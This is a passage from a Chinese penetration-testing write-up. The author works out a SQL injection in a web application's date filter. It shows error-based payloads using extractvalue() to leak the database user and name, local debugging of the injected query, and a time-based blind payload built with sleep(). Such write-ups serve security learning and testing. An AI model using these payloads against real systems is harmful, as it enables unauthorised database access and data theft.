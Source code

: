 这时候我们第一步要做的是进行闭合，一开始我这里选择的是插入 ')#  
 进行闭合  
  
于是我构造了
```
2025-06-19 00:00:00') and extractvalue(1,concat(0x0a,(select user()),0x0a))#
```

  
  
但是没成功，后来又想到了date_format()是有两个参数的，于是又构造了
```
2025-06-19 00:00:00','%Y-%m-%d %H:%M:%S') and extractvalue(1,concat(0x0a,(select user()),0x0a))#
```

  
  
但还是不对，直接本地调试一下吧  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaaVM2YzAYInAXPibp6XfNfk01TYLIxjyX5yd4ibBZT238O67ibJmh2YxYfA/640?wx_fmt=png&from=appmsg "")  
  
把完整的语句放进来，然后进行调试，删除不必要的东西。  
  

```
#SELECT COUNT(1) FROM ( SELECT ss FROM patrol_task AS t JOIN sys_user AS u WHERE date_format ( t.start_time,'%Y-%m-%d %H:%M:%S') >= date_format('2025-06-11 00:00:0011111111111','%Y-%m-%d %H:%M:%S') and extractvalue(0x0a,concat(0x0a,database())))TOTAL# AND date_format (t.end_time,'%Y-%m-%d %H:%M:%S') <= date_format('2025-07-21 23:59:59','%Y-%m-%d %H:%M:%S') ORDER BY t.create_date DESC ) TOTAL
```

  
  
最后可以精简到差不多这样，后来经过本地调试之后，发现存在一个问题  
  

```
SELECT COUNT(1) FROM ( select username FROM admin AS t JOIN news AS u WHERE 1=1 and extractvalue(0x0a,concat(0x0a,database())))TOTAL#
```

  
  
这样是可以报错出结果的：  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaa2SEzSMibISNhOAicYwKrC9c26yWSTqs5Jicia5NUMkjGZuW43R3PJuabqQ/640?wx_fmt=png&from=appmsg "")  
  
也就是说，按理说我闭合后拼接
```
and extractvalue(0x0a,concat(0x0a,database())))total#
```

  
是可以爆出内容的  
  
但是网站就是无法报错，然后观察网站报错信息，发现并不是数据库的那种报错，感觉是网站框架，自定义的报错，可能压根就不会返回报错信息，于是我们尝试使用时间盲注  
  
正常来说我们闭合之后会拼接
```
if(ascii(substr(user(),1,1))>1,sleep(6),0)
```

  
  
我们继续在本地调试：  
  